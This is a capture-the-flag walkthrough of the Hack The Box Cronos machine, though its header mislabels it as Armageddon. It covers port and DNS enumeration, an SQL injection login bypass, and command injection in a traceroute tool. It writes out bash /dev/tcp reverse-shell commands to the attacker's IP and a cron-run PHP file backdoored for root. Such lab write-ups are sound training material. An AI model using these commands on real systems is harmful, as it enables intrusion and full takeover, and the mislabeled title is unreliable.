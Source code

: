 # \_\__LeeCyberSec_\_\_
| About | **Hack The Box - Armageddon** |
| :-------------------------------- |-------------------------------|
| **I'm Hades - Red/purple teamer** <br> `Email:` [tuvn@protonmail.com](mailto:tuvn@protonmail.com) <br> <br> `Platform:` [HackTheBox](https://www.hackthebox.eu/profile/167764) \|\| [TryHackMe](https://tryhackme.com/p/leecybersec) \|\| [PentesterLab](https://pentesterlab.com/profile/leecybersec) <br> <br> <img src="http://www.hackthebox.eu/badge/image/167764" alt="Hack The Box"> <br> <br> *Support me at [buymeacoffee](https://www.buymeacoffee.com/leecybersec)* <br> <a href='https://www.buymeacoffee.com/leecybersec' target="blank"><img src="images/bymeacoffee.png" width="200"/></a> | ![](images/1.png) |

## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.13 | grep ^[0-9] | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//

[+] Openning ports: 22,53,80

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.13 -p22,53,80
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-05 09:12 +07
Nmap scan report for 10.10.10.13
Host is up (0.26s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.82 seconds
```

### DNS Server

At port 53, I used `nslooup` to enum ip 10.10.10.13 and got the name server `ns1.cronos.htb`

```
### DNS Enumeration (53) ############################
nslookup 10.10.10.13 10.10.10.13
13.10.10.10.in-addr.arpa        name = ns1.cronos.htb.
```

Add domain `ns1.cronos.htb` and `cronos.htb` to file `/etc/hosts` and `dig` enum.

```
┌──(Hades㉿10.10.14.5)-[2.0:21.4]~/scripting
└─$ dig axfr cronos.htb @10.10.10.13

; <<>> DiG 9.16.13-Debian <<>> axfr cronos.htb @10.10.10.13
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
<snip>
```

### Laravel Web App

There is defaul Apache page at port 80, but after add domain `cronos.htb` and go to it, I got a web application power by Laravel

![](images/2.png)

Add `admin.cronos.htb`, `www.cronos.htb` to file `/etc/hosts`


```
10.10.10.13 cronos.htb admin.cronos.htb www.cronos.htb ns1.cronos.htb
```

![](images/3.png)

## Foothold

### SQL Injection

At admin page, I try some payload SQLi to bypass authentication and I got it.

![](images/4.png)

### Command Injection

Admin page is Net Tool support `traceroute` server, but in the command box, I inject command `ls` and got the result.

![](images/5.png)

Inject command `bash -c 'sh -i >& /dev/tcp/10.10.14.5/443 0>&1'` and got the remote code execution.

```
┌──(Hades㉿10.10.14.5)-[2.9:23.4]~/walkthrough/hackthebox/cronos
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.13] 53806
sh: 0: can't access tty; job control turned off
$ id    
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Privilege Escalation

### Scheduled Tasks

Add file `/etc/crontab`, I know that the system running file `/var/www/laravel/artisan` with php command as root.

```
www-data@cronos:/var/www$ cat /etc/crontab
# /etc/crontab: system-wide crontab
<snip>
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

Check permission file `/var/www/laravel/artisan`, This file owned by www-data, can easy to modify it.

```
www-data@cronos:/var/www$ ls -lh /var/www/laravel/artisan
-rwxr-xr-x 1 www-data www-data 1.7K Apr  9  2017 /var/www/laravel/artisan
```

At simple system command to execute shell code in `/var/www/laravel/artisan`.

```
echo system("bash -c 'sh -i >& /dev/tcp/10.10.14.5/443 0>&1'"); >> /var/www/laravel/artisan
```

Waiting 1 minute, I have root shell at my listener.

```
┌──(Hades㉿10.10.14.5)-[2.9:25.2]~/priescal/PEASS/linPEAS
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.13] 53762
sh: 0: can't access tty; job control turned off
# whoami
root
```